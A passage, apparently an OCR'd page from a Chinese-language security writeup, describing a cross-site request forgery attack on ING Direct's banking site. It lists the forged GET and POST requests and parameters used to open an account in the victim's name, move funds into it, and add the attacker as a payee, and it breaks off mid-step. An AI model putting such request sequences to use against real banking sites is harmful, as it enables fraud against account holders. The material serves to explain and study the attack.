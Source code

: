 <br>
<font size=3>&emsp;&emsp;&emsp;（a）攻击者使用户浏览器访问ING的“开设新账户”页面：</font>

<font size=2>&emsp;&emsp;&emsp;&emsp;
• 一个GET请求发送到 https://secure. ingdirect.com/myaccount/ INGDirect.html?command= gotoOpenOCA</font>
<br>
<font size=3>&emsp;&emsp;&emsp;（b）攻击者使用户浏览器输入攻击者的信息：</font>

<font size=2>&emsp;&emsp;&emsp;&emsp;
• 一个POST请求发送到 https://secure. ingdirect.com/myaccount/ INGDirect.html 带有以下参数:</font>

```
command=ocaOpenInitial&YES, I
WANT TO CONTINUE..x=44&YES, I
WANT TO CONTINUE..y=25
```

<br>
<font size=3>&emsp;&emsp;&emsp;（c）攻击者选择资金的仲裁金额，最初从用户的储蓄账户转移到新的欺诈账户：</font>

<font size=2>&emsp;&emsp;&emsp;&emsp;
• 一个POST请求发送到 https://secure.
ingdirect.com/myaccount/ INGDirect.html带有以下参数:</font>

```
command=ocaValidateFunding&PRIMARY CARD=true&JOINTCARD=true&Account Nickname=[ACCOUNT NAME]&FROMACCT= 0&TAMT=[INITIAL AMOUNT]&YES, I WANT TO CONTINUE..x=44&YES, I
WANT TO
CONTINUE..y=25&XTYPE=4000USD
&XBCRCD=USD……
……其中[帐户名]是用户将看到的帐户的名称，[INITIAL AMOUNT]是打开时将转移到新帐户的金额。 帐户名称可以是任何字符串，攻击者无需事先知道它 - 它只是一个将用于新帐户的昵称。

```
<br>
<font size=3>&emsp;&emsp;&emsp;（d）攻击者使用户浏览器点击最后的“开通账户”按钮，使ING代表用户开设一个新的支票：</font>

<font size=2>&emsp;&emsp;&emsp;&emsp;
• 一个POST请求发送到https://secure. ingdirect.com/myaccount/ INGDirect.html带有以下参数：</font>

```
command=ocaOpenAccount&Agree
ElectronicDisclosure=yes&AgreeTerms
Conditions=yes&YES, I WANT TO
CONTINUE..x=44&YES, I WANT TO
CONTINUE..y=25&YES, I WANT TO
CONTINUE.=Submit

```
<br>
<font size=3>&emsp;&emsp;2.攻击者将自己添加为用户账户收款人。</font>
<br>
<font size=3>&emsp;&emsp;&emsp;（a）攻击者使用户的浏览器访问ING的“添加人员”页面：</font>

<font size=2>&emsp;&emsp;&emsp;&emsp;
• 一个GET请求发送到https://secure. ingdirect.com/myaccount/ INGDirect.html?command= goToModifyPersonalPayee&Mode= Add&from=displayEmailMoney</font>
<br>
<font size=3>&emsp;&emsp;&emsp;（b）攻击者使用户浏览器输入攻击者的信息：</font>
